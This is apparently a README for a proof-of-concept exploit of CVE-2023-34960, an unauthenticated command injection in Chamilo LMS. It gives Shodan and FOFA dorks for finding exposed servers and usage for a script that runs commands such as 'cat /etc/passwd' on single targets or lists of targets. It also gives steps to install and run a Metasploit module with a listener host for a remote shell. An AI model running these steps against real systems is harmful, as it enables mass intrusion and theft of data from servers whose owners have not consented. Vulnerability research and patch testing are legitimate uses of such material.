 # CVE-2023-34960
![](https://img.shields.io/static/v1?label=Product&message=Chamilo&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.11.*%20up%20to%20v1.11.18&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20injection&color=red)


- [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-34960.yaml)
```
nuclei -uq 'http.component:"Chamilo"' -t CVE-2023-34960.yaml -vv
```

- Shodan dork:
```
http.component:"Chamilo"
```
- FOFA dork:
```
body="content=\"Chamilo 1"
```
## Install
```
pip install -r requirements.txt
```
## Usage
```
usage: exploit.py [-h] [-u URL] [-f FILENAME] [-c COMMAND] [-t THREADS]
                  [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL address (without 'http://' prefix)
  -f FILENAME, --filename FILENAME
                        File containing URLs
  -c COMMAND, --command COMMAND
                        Command to execute (optional)
  -t THREADS, --threads THREADS
                        Maximum number of concurrent threads
  -o OUTPUT, --output OUTPUT
                        Output file for saving the results
# Single scan.
python3 exploit.py -u target_IP -c 'cat /etc/passwd'

# Mass scan.
python3 exploit.py -f list_ip.txt -c 'cat /etc/passwd'
```
## Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Chamilo CVE-2023-34960/chamilo_unauth_rce_cve_2023_34960.rb
```
```
cp chamilo_unauth_rce_cve_2023_34960.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploitsexploits/linux/http/chamilo_unauth_rce_cve_2023_34960.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
